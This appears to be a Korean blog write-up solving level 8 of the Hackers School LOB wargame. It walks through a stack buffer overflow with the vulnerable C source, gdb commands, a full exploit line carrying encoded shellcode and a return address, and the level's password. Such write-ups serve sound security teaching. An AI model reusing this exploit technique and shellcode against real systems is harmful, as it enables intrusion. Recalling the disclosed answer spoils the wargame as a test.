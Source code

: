 ```yaml
---
date: '2022-10-18'
before : '2022-10-17'
after : '2022-10-19'
title: 'FTZ LOB LEVEL 8'
categories: [ 'KOR', 'pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이 문제에서는 더 이상 매개변수를 두개 넘겨줄 수 없다. 해결법은 그래도 그리 어렵진 않다.


### Level 8 : Orge -> Troll

소스코드를 확인해보자.

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed, 파라미터의 개수가 하나밖에 없다.
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter, 환경변수 사용 불가
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        // 첫 번째 argv의 마지막 값은 무조건 /xbf, 따라서 특정 주소를 나타내야 한다.
        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
```
이런 경우는 그냥 첫 번째 매개변수에 두 번째 매개변수를 넘겨주면 되는데, 이게 무슨 말이냐면 :


>> 우리가 넘길 매개변수 = return주소를 포함하는 통상적인 버퍼 오버플로우 스트링 + " " (빈 스트링) + NOP SLED 포함 쉘코드


이런 식으로 매개변수를 넘겨서, return 주소가 NOP SLED 어딘가쯤에 오게 만들면 된다는 말이다. 말로 들으면 어려우니 코드를 보자 : 

```
b * main
r `python -c'print "A"*44+"\xbf\xbf\xbf\xbf"'` `python -c'print "\x90"*100'`
x/200x $esp
```
확인해보면 A(\x41)부터 시작해서 쭉쭉 나가다가 어느 순간 \x90이 시작되는 것이 보인다. 그 주소는 다음과 같다 : 


대충이나마의 주소 : 0xbffffb3c


그럼 그냥 return 코드로 저 주소를 넘겨주면 된다. 어렵지 않다.


따라서 exploit :

```
./`python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"D"*44+"\x90\xfb\xff\xbf"'`
```

비밀번호 : aspirin

 ---
## Source

- 해커스쿨 FTZ
- Me!

